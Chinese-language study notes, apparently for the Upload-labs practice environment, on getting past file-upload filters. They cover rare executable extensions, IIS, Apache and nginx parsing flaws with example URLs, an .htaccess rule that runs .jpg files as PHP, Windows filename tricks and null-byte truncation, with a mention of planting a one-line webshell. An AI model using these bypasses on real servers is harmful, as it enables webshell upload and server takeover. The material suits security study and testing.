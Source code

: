 

GO GO GO

## 思路脑图

![Upload-labs](../漏洞/imgs/Upload-labs.png)

## 后缀名解析

### 黑名单

- **生僻解析后缀**

```
后缀
====
asp => .aspx .asa .cer .cdx
jsp => .jspx .jspf
php => .php3 .php4 .phtml

大小写绕过比如：.aSp .pHp
```

### 解析漏洞

- **IIS 5.x - 6.x**

```
形式：http://www.xxx.com/xx.asp/xx.jpg
原理: 服务器默认会把.asp，.asp目录下的文件都解析成asp文件
形式：http://www.xxx.com/xx.asp;.jpg
原理：服务器默认不解析;号后面的内容，因此xx.asp;.jpg便被解析成asp文件了
IIS6.0 默认的可执行文件除了asp还包含这三种 :
/test.asa /test.cer /test.cdx
```

- **Apache**

```
形式：http://www.xxxx.xxx.com/test.php.php123
其余配置问题导致漏洞
如果在 Apache 的 conf 里有这样一行配置 AddHandler php5-script .php 这时只要文件名里包含.php 即使文件名是 test2.php.jpg 也会以 php 来执行。
如果在 Apache 的 conf 里有这样一行配置 AddType application/x-httpd-php .jpg 即使扩展名是 jpg，一样能以 php 方式执行。
```

- **nginx**

```
漏洞形式:
http://www.xxxx.com/UploadFiles/p_w_picpath/1.jpg/1.php
http://www.xxxx.com/UploadFiles/p_w_picpath/1.jpg%00.php
http://www.xxxx.com/UploadFiles/p_w_picpath/1.jpg/%20\0.php
另外一种手法：上传一个名字为test.jpg，然后访问test.jpg/.php,在这个目录下就会生成一句话木马shell.php。
(IIS7.5的漏洞与nginx的类似，都是由于php配置文件中，开启了cgi.fix_pathinfo)
```

### 上传绕过

- **.htaccess**

```
文件作为局部变量作用文件成功作用的两个条件  #配置文件httpd.conf
1、Allow Override All
2、LoadModule rewrite_module modules/mod_rewrite.so #rewrite模块为开启状态
通过上传.htaccess文件,apache服务器会将所有.jpg为后缀的文件作为php文件解析
<Directory />
    Options FollowSymLinks
    AllowOverride All
    AddType application/x-httpd-php .jpg	#将.jpg后缀的文件作为PHP文件解析
</Directory>
```

- **上传不符合windows文件命名规则的文件名**

```
test.asp.
test.asp(空格)
test.php:1.jpg
test.php:: $DATA
会被windows系统自动去掉不符合规则符号后面的内容
```

- **0x00 截断**

```
假如这时候获取到的文件名是 test.asp .jpg(asp 后面为 0x00 符合了c语言的特性) 而在gettype()函数里处理方式是从后往前扫描扩展名，所以判断为 jpg
```